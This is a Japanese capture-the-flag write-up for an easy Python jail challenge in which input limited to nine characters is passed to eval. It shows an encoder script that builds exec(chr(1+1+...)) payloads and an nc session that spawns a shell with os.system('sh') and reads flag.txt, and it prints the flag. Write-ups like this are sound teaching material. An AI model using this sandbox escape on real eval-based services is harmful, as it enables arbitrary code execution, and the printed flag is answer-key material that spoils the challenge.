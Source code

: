 # printtext💘

## 問題文
print(text)!!!!!  
`nc 160.251.76.58 54321`  
[app.py](files/app.py)  

## 難易度
**easy**  

## 作問にあたって
Pyfuck問を作りたくて出しました(参考:[Pyfuck -- Esoteric Python using only [(+travels')].](https://github.com/wanqizhu/pyfuck))。  
直前にSECCONが開催されたのですが、そこでの`hitchhike`の解法がこの問題の非想定解で慌てて修正しました。  
Proは怖いですね。  

## 解法
接続先とapp.pyが配布される。  
app.pyは以下のようであった。  
```python
import os
import sys

os.environ["PAGER"] = "cat" #No hitchhike :)

print("""            _       _    __  _            _    __
 _ __  _ __(_)_ __ | |_ / / | |_ _____  _| |_  \ \\
| '_ \| '__| | '_ \| __| |  | __/ _ \ \/ / __|  | |
| |_) | |  | | | | | |_| |  | ||  __/>  <| |_   | |
| .__/|_|  |_|_| |_|\__| |   \__\___/_/\_\\__|  | |
|_|                     \_\                    /_/

Can you evaluate `print(text)`?
They don't seem to have the flag.
""")

text = "I don't have the flag."

allow_list = input("allow_list> ")[:9]
print(f"your allow_list: {list(allow_list)}")
eval_code = input("eval_code> ")

for c in eval_code:
    if c not in allow_list:
        print(f"Hi, {c}!")
        sys.exit()

print("Let’s roll!!")
eval(eval_code)
```
9種類の文字制限で記述されたコードを`eval`しているようだ。  
配布されたソースからわかるが、`print(text)`しても、何も手に入らない。  
`os.environ["PAGER"] = "cat"`により`help()`でページャーからシェルを取得するのもブロックされている。  
ここでpythonは`chr(11+11+11+11+11+11)`などで文字`B`を作成できる。  
つまり任意の文字を`chr(1+1+...)`などで作成し、`+`で連結することで任意のコードが記述できる。  
`chr(+1)`で7文字なので、あと2文字追加できる。  
`exec`ならば`ex`の二文字を追加することで実現できる。  
これにより`exec(chr(1+1+..)+chr(1+1+..)+...)`で任意コード実行ができる。  
入力をこの形式に変換するスクリプトoreore_pyfuck.pyを以下のように記述した。  
```python
code = input()
out_f = open("output.txt", "w")
pyfuck = "exec("
pyfuck += "+".join([f"chr({'+1'*ord(c)})" for c in code])
pyfuck += ")"

for p in pyfuck:
    if p not in "exchr(+1)":
        print("Error:exchr(+1)")
        pyfuck = ""
        break

out_f.write(pyfuck)
out_f.close()
```
あとはシェルを起動する`__import__("os").system("sh")`などをこのスクリプトにかけて、出てきたものをncで送信すればよい。  
```
$ python oreore_pyfuck.py
__import__("os").system("sh")
$ (echo -e "exchr()+1\n$(cat output.txt)\n" ; cat) | nc 160.251.76.58 54321
            _       _    __  _            _    __
 _ __  _ __(_)_ __ | |_ / / | |_ _____  _| |_  \ \
| '_ \| '__| | '_ \| __| |  | __/ _ \ \/ / __|  | |
| |_) | |  | | | | | |_| |  | ||  __/>  <| |_   | |
| .__/|_|  |_|_| |_|\__| |   \__\___/_/\_\__|  | |
|_|                     \_\                    /_/

Can you evaluate `print(text)`?
They don't seem to have the flag.

allow_list> your allow_list: ['e', 'x', 'c', 'h', 'r', '(', ')', '+', '1']
eval_code> ls
app.py
flag.txt
cat flag.txt
imctf{7h3_c0d3_15_45_l0n6_45_4_py7h0n}
```
内部のファイルからflagが得られた。  

## imctf{7h3_c0d3_15_45_l0n6_45_4_py7h0n}
